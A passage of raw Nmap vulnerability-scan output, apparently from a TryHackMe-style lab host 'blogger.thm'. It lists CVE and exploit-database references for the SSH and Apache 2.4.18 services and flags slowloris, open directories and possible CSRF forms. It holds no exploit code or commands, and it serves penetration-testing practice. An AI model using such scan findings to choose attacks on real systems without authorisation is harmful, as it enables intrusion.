[*] Nmap: |             F0979183-AE88-53B4-86CF-3AF0523F3807    7.5     https://vulners.com/githubexploit/F0979183-AE88-53B4-86CF-3AF0523F3807  *EXPLOIT*
[*] Nmap: |             EDB-ID:40888    7.5     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
[*] Nmap: |             CVE-2016-8858   7.5     https://vulners.com/cve/CVE-2016-8858
[*] Nmap: |             CVE-2016-6515   7.5     https://vulners.com/cve/CVE-2016-6515
[*] Nmap: |             CVE-2016-10708  7.5     https://vulners.com/cve/CVE-2016-10708
[*] Nmap: |             6A2CFCDC-9DEA-11E6-A298-14DAE9D210B8    7.5     https://vulners.com/freebsd/6A2CFCDC-9DEA-11E6-A298-14DAE9D210B8
[*] Nmap: |             1337DAY-ID-26576        7.5     https://vulners.com/zdt/1337DAY-ID-26576        *EXPLOIT*
[*] Nmap: |             CVE-2016-10009  7.3     https://vulners.com/cve/CVE-2016-10009
[*] Nmap: |             2C948527-D823-11E6-9171-14DAE9D210B8    7.3     https://vulners.com/freebsd/2C948527-D823-11E6-9171-14DAE9D210B8
[*] Nmap: |             SSV:92582       7.2     https://vulners.com/seebug/SSV:92582    *EXPLOIT*
[*] Nmap: |             CVE-2021-41617  7.0     https://vulners.com/cve/CVE-2021-41617
[*] Nmap: |             CVE-2016-10010  7.0     https://vulners.com/cve/CVE-2016-10010
[*] Nmap: |             2A1B931F-2B86-11EC-8ACD-C80AA9043978    7.0     https://vulners.com/freebsd/2A1B931F-2B86-11EC-8ACD-C80AA9043978
[*] Nmap: |             SSV:92580       6.9     https://vulners.com/seebug/SSV:92580    *EXPLOIT*
[*] Nmap: |             1337DAY-ID-26577        6.9     https://vulners.com/zdt/1337DAY-ID-26577        *EXPLOIT*
[*] Nmap: |             EDB-ID:46516    6.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
[*] Nmap: |             EDB-ID:46193    6.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
[*] Nmap: |             CVE-2019-6110   6.8     https://vulners.com/cve/CVE-2019-6110
[*] Nmap: |             CVE-2019-6109   6.8     https://vulners.com/cve/CVE-2019-6109
[*] Nmap: |             C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3  *EXPLOIT*
[*] Nmap: |             10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207  *EXPLOIT*
[*] Nmap: |             CVE-2023-51385  6.5     https://vulners.com/cve/CVE-2023-51385
[*] Nmap: |             EDB-ID:40858    6.4     https://vulners.com/exploitdb/EDB-ID:40858      *EXPLOIT*
[*] Nmap: |             EDB-ID:40119    6.4     https://vulners.com/exploitdb/EDB-ID:40119      *EXPLOIT*
[*] Nmap: |             EDB-ID:39569    6.4     https://vulners.com/exploitdb/EDB-ID:39569      *EXPLOIT*
[*] Nmap: |             CVE-2016-3115   6.4     https://vulners.com/cve/CVE-2016-3115
[*] Nmap: |             PACKETSTORM:181223      5.9     https://vulners.com/packetstorm/PACKETSTORM:181223      *EXPLOIT*
[*] Nmap: |             MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        5.9     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
[*] Nmap: |             EDB-ID:40136    5.9     https://vulners.com/exploitdb/EDB-ID:40136      *EXPLOIT*
[*] Nmap: |             EDB-ID:40113    5.9     https://vulners.com/exploitdb/EDB-ID:40113      *EXPLOIT*
[*] Nmap: |             CVE-2023-48795  5.9     https://vulners.com/cve/CVE-2023-48795
[*] Nmap: |             CVE-2020-14145  5.9     https://vulners.com/cve/CVE-2020-14145
[*] Nmap: |             CVE-2019-6111   5.9     https://vulners.com/cve/CVE-2019-6111
[*] Nmap: |             CVE-2016-6210   5.9     https://vulners.com/cve/CVE-2016-6210
[*] Nmap: |             54E1BB01-2C69-5AFD-A23D-9783C9D9FC4C    5.9     https://vulners.com/githubexploit/54E1BB01-2C69-5AFD-A23D-9783C9D9FC4C  *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
[*] Nmap: |             1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
[*] Nmap: |             SSV:91041       5.5     https://vulners.com/seebug/SSV:91041    *EXPLOIT*
[*] Nmap: |             PACKETSTORM:140019      5.5     https://vulners.com/packetstorm/PACKETSTORM:140019      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:136234      5.5     https://vulners.com/packetstorm/PACKETSTORM:136234      *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    5.5     https://vulners.com/exploitpack/EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    5.5     https://vulners.com/exploitpack/EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:1902C998CBF9154396911926B4C3B330    5.5     https://vulners.com/exploitpack/EXPLOITPACK:1902C998CBF9154396911926B4C3B330    *EXPLOIT*
[*] Nmap: |             CVE-2016-10011  5.5     https://vulners.com/cve/CVE-2016-10011
[*] Nmap: |             1337DAY-ID-25388        5.5     https://vulners.com/zdt/1337DAY-ID-25388        *EXPLOIT*
[*] Nmap: |             EDB-ID:45939    5.3     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
[*] Nmap: |             EDB-ID:45233    5.3     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
[*] Nmap: |             CVE-2018-20685  5.3     https://vulners.com/cve/CVE-2018-20685
[*] Nmap: |             CVE-2018-15919  5.3     https://vulners.com/cve/CVE-2018-15919
[*] Nmap: |             CVE-2018-15473  5.3     https://vulners.com/cve/CVE-2018-15473
[*] Nmap: |             CVE-2017-15906  5.3     https://vulners.com/cve/CVE-2017-15906
[*] Nmap: |             CVE-2016-20012  5.3     https://vulners.com/cve/CVE-2016-20012
[*] Nmap: |             SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
[*] Nmap: |             PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    *EXPLOIT*
[*] Nmap: |             1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    *EXPLOIT*
[*] Nmap: |             1337DAY-ID-25440        4.3     https://vulners.com/zdt/1337DAY-ID-25440        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-25438        4.3     https://vulners.com/zdt/1337DAY-ID-25438        *EXPLOIT*
[*] Nmap: |             CVE-2021-36368  3.7     https://vulners.com/cve/CVE-2021-36368
[*] Nmap: |             SSV:92581       2.1     https://vulners.com/seebug/SSV:92581    *EXPLOIT*
[*] Nmap: |             PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:140261      0.0     https://vulners.com/packetstorm/PACKETSTORM:140261      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:138006      0.0     https://vulners.com/packetstorm/PACKETSTORM:138006      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:137942      0.0     https://vulners.com/packetstorm/PACKETSTORM:137942      *EXPLOIT*
[*] Nmap: |             5C971D4B-2DD3-5894-9EC2-DAB952B4740D    0.0     https://vulners.com/githubexploit/5C971D4B-2DD3-5894-9EC2-DAB952B4740D  *EXPLOIT*
[*] Nmap: |             39E70D1A-F5D8-59D5-A0CF-E73D9BAA3118    0.0     https://vulners.com/githubexploit/39E70D1A-F5D8-59D5-A0CF-E73D9BAA3118  *EXPLOIT*
[*] Nmap: |             1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-26468        0.0     https://vulners.com/zdt/1337DAY-ID-26468        *EXPLOIT*
[*] Nmap: |_            1337DAY-ID-25391        0.0     https://vulners.com/zdt/1337DAY-ID-25391        *EXPLOIT*
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
[*] Nmap: |_http-server-header: Apache/2.4.18 (Ubuntu)
[*] Nmap: | http-slowloris-check:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Slowloris DOS attack
[*] Nmap: |     State: LIKELY VULNERABLE
[*] Nmap: |     IDs:  CVE:CVE-2007-6750
[*] Nmap: |       Slowloris tries to keep many connections to the target web server open and hold
[*] Nmap: |       them open as long as possible.  It accomplishes this by opening connections to
[*] Nmap: |       the target web server and sending a partial request. By doing so, it starves
[*] Nmap: |       the http server's resources causing Denial Of Service.
[*] Nmap: |
[*] Nmap: |     Disclosure date: 2009-09-17
[*] Nmap: |     References:
[*] Nmap: |       http://ha.ckers.org/slowloris/
[*] Nmap: |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
[*] Nmap: |_http-dombased-xss: Couldn't find any DOM based XSS.
[*] Nmap: | http-enum:
[*] Nmap: |   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
[*] Nmap: |   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
[*] Nmap: |_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
[*] Nmap: | http-csrf:
[*] Nmap: | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=blogger.thm
[*] Nmap: |   Found the following possible CSRF vulnerabilities:
[*] Nmap: |
[*] Nmap: |     Path: http://blogger.thm:80/
[*] Nmap: |     Form id: textarea
[*] Nmap: |     Form action: #
[*] Nmap: |
[*] Nmap: |     Path: http://blogger.thm:80/
[*] Nmap: |     Form id: exampleinputemail1
[*] Nmap: |     Form action: #
[*] Nmap: |
[*] Nmap: |     Path: http://blogger.thm:80/
[*] Nmap: |     Form id: validationdefault01
[*] Nmap: |     Form action: #
[*] Nmap: |
[*] Nmap: |     Path: http://blogger.thm:80/index.html
[*] Nmap: |     Form id: textarea
[*] Nmap: |     Form action: #
[*] Nmap: |
[*] Nmap: |     Path: http://blogger.thm:80/index.html
[*] Nmap: |     Form id: exampleinputemail1
[*] Nmap: |     Form action: #
[*] Nmap: |
[*] Nmap: |     Path: http://blogger.thm:80/index.html
[*] Nmap: |     Form id: validationdefault01
[*] Nmap: |_    Form action: #
[*] Nmap: |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
[*] Nmap: | vulners:
[*] Nmap: |   cpe:/a:apache:http_server:2.4.18:
[*] Nmap: |             C94CBDE1-4CC5-5C06-9D18-23CAB216705E    10.0    https://vulners.com/githubexploit/C94CBDE1-4CC5-5C06-9D18-23CAB216705E  *EXPLOIT*
[*] Nmap: |             95499236-C9FE-56A6-9D7D-E943A24B633A    10.0    https://vulners.com/githubexploit/95499236-C9FE-56A6-9D7D-E943A24B633A  *EXPLOIT*
[*] Nmap: |             2C119FFA-ECE0-5E14-A4A4-354A2C38071A    10.0    https://vulners.com/githubexploit/2C119FFA-ECE0-5E14-A4A4-354A2C38071A  *EXPLOIT*
[*] Nmap: |             PACKETSTORM:181114      9.8     https://vulners.com/packetstorm/PACKETSTORM:181114      *EXPLOIT*
[*] Nmap: |             MSF:EXPLOIT-MULTI-HTTP-APACHE_NORMALIZE_PATH_RCE-       9.8     https://vulners.com/metasploit/MSF:EXPLOIT-MULTI-HTTP-APACHE_NORMALIZE_PATH_RCE-        *EXPLOIT*
[*] Nmap: |             MSF:AUXILIARY-SCANNER-HTTP-APACHE_NORMALIZE_PATH-       9.8     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-HTTP-APACHE_NORMALIZE_PATH-        *EXPLOIT*
[*] Nmap: |             F9C0CD4B-3B60-5720-AE7A-7CC31DB839C5    9.8     https://vulners.com/githubexploit/F9C0CD4B-3B60-5720-AE7A-7CC31DB839C5  *EXPLOIT*
[*] Nmap: |             F607361B-6369-5DF5-9B29-E90FA29DC565    9.8     https://vulners.com/githubexploit/F607361B-6369-5DF5-9B29-E90FA29DC565  *EXPLOIT*
[*] Nmap: |             F41EE867-4E63-5259-9DF0-745881884D04    9.8     https://vulners.com/githubexploit/F41EE867-4E63-5259-9DF0-745881884D04  *EXPLOIT*
[*] Nmap: |             EDB-ID:51193    9.8     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
[*] Nmap: |             EDB-ID:50512    9.8     https://vulners.com/exploitdb/EDB-ID:50512      *EXPLOIT*
[*] Nmap: |             EDB-ID:50446    9.8     https://vulners.com/exploitdb/EDB-ID:50446      *EXPLOIT*
[*] Nmap: |             EDB-ID:50406    9.8     https://vulners.com/exploitdb/EDB-ID:50406      *EXPLOIT*
[*] Nmap: |             E796A40A-8A8E-59D1-93FB-78EF4D8B7FA6    9.8     https://vulners.com/githubexploit/E796A40A-8A8E-59D1-93FB-78EF4D8B7FA6  *EXPLOIT*
[*] Nmap: |             D10426F3-DF82-5439-AC3E-6CA0A1365A09    9.8     https://vulners.com/githubexploit/D10426F3-DF82-5439-AC3E-6CA0A1365A09  *EXPLOIT*
[*] Nmap: |             D0368327-F989-5557-A5C6-0D9ACDB4E72F    9.8     https://vulners.com/githubexploit/D0368327-F989-5557-A5C6-0D9ACDB4E72F  *EXPLOIT*
[*] Nmap: |             CVE-2024-38476  9.8     https://vulners.com/cve/CVE-2024-38476
[*] Nmap: |             CVE-2024-38474  9.8     https://vulners.com/cve/CVE-2024-38474
[*] Nmap: |             CVE-2023-25690  9.8     https://vulners.com/cve/CVE-2023-25690
[*] Nmap: |             CVE-2022-31813  9.8     https://vulners.com/cve/CVE-2022-31813
[*] Nmap: |             CVE-2022-23943  9.8     https://vulners.com/cve/CVE-2022-23943
[*] Nmap: |             CVE-2022-22720  9.8     https://vulners.com/cve/CVE-2022-22720
[*] Nmap: |             CVE-2021-44790  9.8     https://vulners.com/cve/CVE-2021-44790
[*] Nmap: |             CVE-2021-42013  9.8     https://vulners.com/cve/CVE-2021-42013
[*] Nmap: |             CVE-2021-39275  9.8     https://vulners.com/cve/CVE-2021-39275
[*] Nmap: |             CVE-2021-26691  9.8     https://vulners.com/cve/CVE-2021-26691
[*] Nmap: |             CVE-2018-1312   9.8     https://vulners.com/cve/CVE-2018-1312
[*] Nmap: |             CVE-2017-7679   9.8     https://vulners.com/cve/CVE-2017-7679
[*] Nmap: |             CVE-2017-3169   9.8     https://vulners.com/cve/CVE-2017-3169
[*] Nmap: |             CVE-2017-3167   9.8     https://vulners.com/cve/CVE-2017-3167
[*] Nmap: |             CC15AE65-B697-525A-AF4B-38B1501CAB49    9.8     https://vulners.com/githubexploit/CC15AE65-B697-525A-AF4B-38B1501CAB49  *EXPLOIT*
[*] Nmap: |             C879EE66-6B75-5EC8-AA68-08693C6CCAD1    9.8     https://vulners.com/githubexploit/C879EE66-6B75-5EC8-AA68-08693C6CCAD1  *EXPLOIT*
[*] Nmap: |             C5A61CC6-919E-58B4-8FBB-0198654A7FC8    9.8     https://vulners.com/githubexploit/C5A61CC6-919E-58B4-8FBB-0198654A7FC8  *EXPLOIT*
[*] Nmap: |             BF9B0898-784E-5B5E-9505-430B58C1E6B8    9.8     https://vulners.com/githubexploit/BF9B0898-784E-5B5E-9505-430B58C1E6B8  *EXPLOIT*
[*] Nmap: |             B02819DB-1481-56C4-BD09-6B4574297109    9.8     https://vulners.com/githubexploit/B02819DB-1481-56C4-BD09-6B4574297109  *EXPLOIT*
[*] Nmap: |             ACD5A7F2-FDB2-5859-8D23-3266A1AF6795    9.8     https://vulners.com/githubexploit/ACD5A7F2-FDB2-5859-8D23-3266A1AF6795  *EXPLOIT*
[*] Nmap: |             A90ABEAD-13A8-5F09-8A19-6D9D2D804F05    9.8     https://vulners.com/githubexploit/A90ABEAD-13A8-5F09-8A19-6D9D2D804F05  *EXPLOIT*
[*] Nmap: |             A8616E5E-04F8-56D8-ACB4-32FDF7F66EED    9.8     https://vulners.com/githubexploit/A8616E5E-04F8-56D8-ACB4-32FDF7F66EED  *EXPLOIT*
[*] Nmap: |             A5425A79-9D81-513A-9CC5-549D6321897C    9.8     https://vulners.com/githubexploit/A5425A79-9D81-513A-9CC5-549D6321897C  *EXPLOIT*
[*] Nmap: |             A2D97DCC-04C2-5CB1-921F-709AA8D7FD9A    9.8     https://vulners.com/githubexploit/A2D97DCC-04C2-5CB1-921F-709AA8D7FD9A  *EXPLOIT*
[*] Nmap: |             9B4F4E4A-CFDF-5847-805F-C0BAE809DBD5    9.8     https://vulners.com/githubexploit/9B4F4E4A-CFDF-5847-805F-C0BAE809DBD5  *EXPLOIT*
[*] Nmap: |             907F28D0-5906-51C7-BAA3-FEBD5E878801    9.8     https://vulners.com/githubexploit/907F28D0-5906-51C7-BAA3-FEBD5E878801  *EXPLOIT*
[*] Nmap: |             8A57FAF6-FC91-52D1-84E0-4CBBAD3F9677    9.8     https://vulners.com/githubexploit/8A57FAF6-FC91-52D1-84E0-4CBBAD3F9677  *EXPLOIT*
[*] Nmap: |             88EB009A-EEFF-52B7-811D-A8A8C8DE8C81    9.8     https://vulners.com/githubexploit/88EB009A-EEFF-52B7-811D-A8A8C8DE8C81  *EXPLOIT*
[*] Nmap: |             8713FD59-264B-5FD7-8429-3251AB5AB3B8    9.8     https://vulners.com/githubexploit/8713FD59-264B-5FD7-8429-3251AB5AB3B8  *EXPLOIT*
[*] Nmap: |             866E26E3-759B-526D-ABB5-206B2A1AC3EE    9.8     https://vulners.com/githubexploit/866E26E3-759B-526D-ABB5-206B2A1AC3EE  *EXPLOIT*
[*] Nmap: |             86360765-0B1A-5D73-A805-BAE8F1B5D16D    9.8     https://vulners.com/githubexploit/86360765-0B1A-5D73-A805-BAE8F1B5D16D  *EXPLOIT*
[*] Nmap: |             831E1114-13D1-54EF-BDE4-F655114CDC29    9.8     https://vulners.com/githubexploit/831E1114-13D1-54EF-BDE4-F655114CDC29  *EXPLOIT*
[*] Nmap: |             805E6B24-8DF9-51D8-8DF6-6658161F96EA    9.8     https://vulners.com/githubexploit/805E6B24-8DF9-51D8-8DF6-6658161F96EA  *EXPLOIT*
[*] Nmap: |             7E615961-3792-5896-94FA-1F9D494ACB36    9.8     https://vulners.com/githubexploit/7E615961-3792-5896-94FA-1F9D494ACB36  *EXPLOIT*
[*] Nmap: |             78787F63-0356-51EC-B32A-B9BD114431C3    9.8     https://vulners.com/githubexploit/78787F63-0356-51EC-B32A-B9BD114431C3  *EXPLOIT*
[*] Nmap: |             6CAA7558-723B-5286-9840-4DF4EB48E0AF    9.8     https://vulners.com/githubexploit/6CAA7558-723B-5286-9840-4DF4EB48E0AF  *EXPLOIT*
[*] Nmap: |             6A0A657E-8300-5312-99CE-E11F460B1DBF    9.8     https://vulners.com/githubexploit/6A0A657E-8300-5312-99CE-E11F460B1DBF  *EXPLOIT*
[*] Nmap: |             64D31BF1-F977-51EC-AB1C-6693CA6B58F3    9.8     https://vulners.com/githubexploit/64D31BF1-F977-51EC-AB1C-6693CA6B58F3  *EXPLOIT*
[*] Nmap: |             61075B23-F713-537A-9B84-7EB9B96CF228    9.8     https://vulners.com/githubexploit/61075B23-F713-537A-9B84-7EB9B96CF228  *EXPLOIT*
[*] Nmap: |             5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    9.8     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9  *EXPLOIT*
[*] Nmap: |             5312D04F-9490-5472-84FA-86B3BBDC8928    9.8     https://vulners.com/githubexploit/5312D04F-9490-5472-84FA-86B3BBDC8928  *EXPLOIT*
[*] Nmap: |             52E13088-9643-5E81-B0A0-B7478BCF1F2C    9.8     https://vulners.com/githubexploit/52E13088-9643-5E81-B0A0-B7478BCF1F2C  *EXPLOIT*
[*] Nmap: |             495E99E5-C1B0-52C1-9218-384D04161BE4    9.8     https://vulners.com/githubexploit/495E99E5-C1B0-52C1-9218-384D04161BE4  *EXPLOIT*
[*] Nmap: |             44E43BB7-6255-58E7-99C7-C3B84645D497    9.8     https://vulners.com/githubexploit/44E43BB7-6255-58E7-99C7-C3B84645D497  *EXPLOIT*
[*] Nmap: |             40F21EB4-9EE8-5ED1-B561-0A2B8625EED3    9.8     https://vulners.com/githubexploit/40F21EB4-9EE8-5ED1-B561-0A2B8625EED3  *EXPLOIT*
[*] Nmap: |             3F17CA20-788F-5C45-88B3-E12DB2979B7B    9.8     https://vulners.com/githubexploit/3F17CA20-788F-5C45-88B3-E12DB2979B7B  *EXPLOIT*
[*] Nmap: |             37634050-FDDF-571A-90BB-C8109824B38D    9.8     https://vulners.com/githubexploit/37634050-FDDF-571A-90BB-C8109824B38D  *EXPLOIT*
[*] Nmap: |             30293CDA-FDB1-5FAF-9622-88427267F204    9.8     https://vulners.com/githubexploit/30293CDA-FDB1-5FAF-9622-88427267F204  *EXPLOIT*
[*] Nmap: |             2B3110E1-BEA0-5DB8-93AD-1682230F3E19    9.8     https://vulners.com/githubexploit/2B3110E1-BEA0-5DB8-93AD-1682230F3E19  *EXPLOIT*
[*] Nmap: |             22DCCD26-B68C-5905-BAC2-71D10DE3F123    9.8     https://vulners.com/githubexploit/22DCCD26-B68C-5905-BAC2-71D10DE3F123  *EXPLOIT*
[*] Nmap: |             2108729F-1E99-54EF-9A4B-47299FD89FF2    9.8     https://vulners.com/githubexploit/2108729F-1E99-54EF-9A4B-47299FD89FF2  *EXPLOIT*
[*] Nmap: |             1C39E10A-4A38-5228-8334-2A5F8AAB7FC3    9.8     https://vulners.com/githubexploit/1C39E10A-4A38-5228-8334-2A5F8AAB7FC3  *EXPLOIT*
[*] Nmap: |             1337DAY-ID-39214        9.8     https://vulners.com/zdt/1337DAY-ID-39214        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-37777        9.8     https://vulners.com/zdt/1337DAY-ID-37777        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-36952        9.8     https://vulners.com/zdt/1337DAY-ID-36952        *EXPLOIT*
[*] Nmap: |             11813536-2AFF-5EA4-B09F-E9EB340DDD26    9.8     https://vulners.com/githubexploit/11813536-2AFF-5EA4-B09F-E9EB340DDD26  *EXPLOIT*
[*] Nmap: |             0C47BCF2-EA6F-5613-A6E8-B707D64155DE    9.8     https://vulners.com/githubexploit/0C47BCF2-EA6F-5613-A6E8-B707D64155DE  *EXPLOIT*
[*] Nmap: |             0AA6A425-25B1-5D2A-ABA1-2933D3E1DC56    9.8     https://vulners.com/githubexploit/0AA6A425-25B1-5D2A-ABA1-2933D3E1DC56  *EXPLOIT*
[*] Nmap: |             07AA70EA-C34E-5F66-9510-7C265093992A    9.8     https://vulners.com/githubexploit/07AA70EA-C34E-5F66-9510-7C265093992A  *EXPLOIT*
[*] Nmap: |             CVE-2024-38475  9.1     https://vulners.com/cve/CVE-2024-38475
[*] Nmap: |             CVE-2022-28615  9.1     https://vulners.com/cve/CVE-2022-28615
[*] Nmap: |             CVE-2022-22721  9.1     https://vulners.com/cve/CVE-2022-22721
[*] Nmap: |             CVE-2019-10082  9.1     https://vulners.com/cve/CVE-2019-10082
[*] Nmap: |             CVE-2017-9788   9.1     https://vulners.com/cve/CVE-2017-9788
[*] Nmap: |             2EF14600-503F-53AF-BA24-683481265D30    9.1     https://vulners.com/githubexploit/2EF14600-503F-53AF-BA24-683481265D30  *EXPLOIT*
[*] Nmap: |             0486EBEE-F207-570A-9AD8-33269E72220A    9.1     https://vulners.com/githubexploit/0486EBEE-F207-570A-9AD8-33269E72220A  *EXPLOIT*
[*] Nmap: |             DC06B9EF-3584-5D80-9EEB-E7B637DCF3D6    9.0     https://vulners.com/githubexploit/DC06B9EF-3584-5D80-9EEB-E7B637DCF3D6  *EXPLOIT*
[*] Nmap: |             CVE-2022-36760  9.0     https://vulners.com/cve/CVE-2022-36760
[*] Nmap: |             CVE-2021-40438  9.0     https://vulners.com/cve/CVE-2021-40438
[*] Nmap: |             AE3EF1CC-A0C3-5CB7-A6EF-4DAAAFA59C8C    9.0     https://vulners.com/githubexploit/AE3EF1CC-A0C3-5CB7-A6EF-4DAAAFA59C8C  *EXPLOIT*
[*] Nmap: |             8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    9.0     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2  *EXPLOIT*
[*] Nmap: |             893DFD44-40B5-5469-AC54-A373AEE17F19    9.0     https://vulners.com/githubexploit/893DFD44-40B5-5469-AC54-A373AEE17F19  *EXPLOIT*
[*] Nmap: |             7F48C6CF-47B2-5AF9-B6FD-1735FB2A95B2    9.0     https://vulners.com/githubexploit/7F48C6CF-47B2-5AF9-B6FD-1735FB2A95B2  *EXPLOIT*
[*] Nmap: |             4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    9.0     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332  *EXPLOIT*
[*] Nmap: |             4373C92A-2755-5538-9C91-0469C995AA9B    9.0     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B  *EXPLOIT*
[*] Nmap: |             36618CA8-9316-59CA-B748-82F15F407C4F    9.0     https://vulners.com/githubexploit/36618CA8-9316-59CA-B748-82F15F407C4F  *EXPLOIT*
[*] Nmap: |             CVE-2021-44224  8.2     https://vulners.com/cve/CVE-2021-44224
[*] Nmap: |             B0A9E5E8-7CCC-5984-9922-A89F11D6BF38    8.2     https://vulners.com/githubexploit/B0A9E5E8-7CCC-5984-9922-A89F11D6BF38  *EXPLOIT*
[*] Nmap: |             CVE-2024-38473  8.1     https://vulners.com/cve/CVE-2024-38473
[*] Nmap: |             CVE-2017-15715  8.1     https://vulners.com/cve/CVE-2017-15715
[*] Nmap: |             CVE-2016-5387   8.1     https://vulners.com/cve/CVE-2016-5387
[*] Nmap: |             249A954E-0189-5182-AE95-31C866A057E1    8.1     https://vulners.com/githubexploit/249A954E-0189-5182-AE95-31C866A057E1  *EXPLOIT*
[*] Nmap: |             23079A70-8B37-56D2-9D37-F638EBF7F8B5    8.1     https://vulners.com/githubexploit/23079A70-8B37-56D2-9D37-F638EBF7F8B5  *EXPLOIT*
[*] Nmap: |             EDB-ID:46676    7.8     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
[*] Nmap: |             CVE-2019-0211   7.8     https://vulners.com/cve/CVE-2019-0211
[*] Nmap: |             PACKETSTORM:181038      7.5     https://vulners.com/packetstorm/PACKETSTORM:181038      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:176334      7.5     https://vulners.com/packetstorm/PACKETSTORM:176334      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:164941      7.5     https://vulners.com/packetstorm/PACKETSTORM:164941      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:164629      7.5     https://vulners.com/packetstorm/PACKETSTORM:164629      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:164609      7.5     https://vulners.com/packetstorm/PACKETSTORM:164609      *EXPLOIT*
[*] Nmap: |             MSF:AUXILIARY-SCANNER-HTTP-APACHE_OPTIONSBLEED- 7.5     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-HTTP-APACHE_OPTIONSBLEED-  *EXPLOIT*
[*] Nmap: |             FF610CB4-801A-5D1D-9AC9-ADFC287C8482    7.5     https://vulners.com/githubexploit/FF610CB4-801A-5D1D-9AC9-ADFC287C8482  *EXPLOIT*
[*] Nmap: |             FDF4BBB1-979C-5320-95EA-9EC7EB064D72    7.5     https://vulners.com/githubexploit/FDF4BBB1-979C-5320-95EA-9EC7EB064D72  *EXPLOIT*
[*] Nmap: |             FCAF01A0-F921-5DB1-BBC5-850EC2DC5C46    7.5     https://vulners.com/githubexploit/FCAF01A0-F921-5DB1-BBC5-850EC2DC5C46  *EXPLOIT*
[*] Nmap: |             F8A7DE57-8F14-5B3C-A102-D546BDD8D2B8    7.5     https://vulners.com/githubexploit/F8A7DE57-8F14-5B3C-A102-D546BDD8D2B8  *EXPLOIT*
[*] Nmap: |             F7F6E599-CEF4-5E03-8E10-FE18C4101E38    7.5     https://vulners.com/githubexploit/F7F6E599-CEF4-5E03-8E10-FE18C4101E38  *EXPLOIT*
